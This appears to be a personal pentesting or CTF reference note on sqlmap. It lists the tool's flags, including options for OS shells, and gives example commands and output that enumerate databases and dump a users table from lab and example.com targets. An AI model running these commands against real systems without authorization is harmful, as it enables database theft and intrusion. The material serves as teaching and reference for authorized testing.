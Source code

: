 #### Official Documentation: [https://sqlmap.org/](https://sqlmap.org/)
#### Cheat Sheet: [[Kali Tools#SQLmap|SQLmap Commands]]
## Purpose
sqlmap is an automated SQL injection tool that detects and exploits SQL injection flaws, enumerates databases, dumps data, and can provide a SQL shell.

## Scenarios
- CTF: Identify SQL injection points, dump database contents (tables, columns) to find flags.  
- Real world: Verify suspected injection vulnerabilities, enumerate DBs, and help prioritize fixes.

## All needed info to run
- Target URL with injectable parameter (GET/POST) or a request file (`-r request.txt`).  
- Common flags:
  - `-u <url>` → target URL  
  - `-p <param>` → parameter to test (optional)  
  - `--data="<postdata>"` → POST data  
  - `-r <reqfile>` → use saved request file (Burp)  
  - `--dbs` → enumerate databases  
  - `--tables -D <db>` → list tables in database  
  - `--columns -D <db> -T <table>` → list columns  
  - `--dump -D <db> -T <table>` → dump table contents  
  - `--os-shell` / `--os-pwn` → attempt OS shell (dangerous; often needs file writes)  
  - `--proxy=http://127.0.0.1:8080` → route through Burp
- Use `-v` for verbosity. Use `--batch` to skip prompts.

## Example commands & outputs
```bash
# Basic test
$ sqlmap -u "http://192.168.56.101/item.php?id=1" --batch
# Output snippet:
# [INFO] testing for SQL injection on parameter 'id'
# [INFO] the back-end DBMS is MySQL
# available databases [3]:
# [0] information_schema
# [1] users_db
# [2] test_db

# Enumerate tables in users_db
$ sqlmap -u "http://example.com/product.php?id=2" --tables -D users_db
# Output:
# Database: users_db
# +----------+
# | users    |
# | creds    |
# +----------+

# Dump data from a table
$ sqlmap -u "http://example.com/product.php?id=2" --dump -D users_db -T users
# Output snippet:
# username: admin
# password: $2y$10$encryptedhash
```

!!! note "SQLmap Basics"
	- Use `-r` with a Burp request file for complex requests (auth, headers, cookies).
	- `--batch` automates choices but may make risky decisions; use carefully.
	- SQLmap can be very noisy and disruptive — use only on allowed targets.
	- Avoid `--os-shell`/`--os-pwn` on production targets unless you have permission.


### [[Kali Tools#SQLmap|SQLmap Commands]]